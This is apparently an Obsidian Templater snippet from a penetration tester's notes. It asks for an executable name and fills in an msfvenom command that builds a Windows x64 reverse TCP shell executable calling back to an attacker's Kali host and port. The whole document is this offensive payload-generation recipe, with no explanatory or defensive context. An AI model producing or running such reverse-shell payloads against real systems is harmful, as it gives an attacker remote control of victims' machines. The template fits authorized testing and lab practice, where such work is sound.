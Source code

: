 <%*
let executable = await tp.system.prompt("Enter the name of the executable")
-%>

- Generate the payload <% executable %>

>[!example]   msfvenom Windows
>```shell
> msfvenom -p windows/x64/shell_reverse_tcp  LHOST=<% tp.frontmatter["KaliIP"] %> LPORT=<% tp.frontmatter["Kaliport"] %> -f exe -o <% executable %>.exe
>```
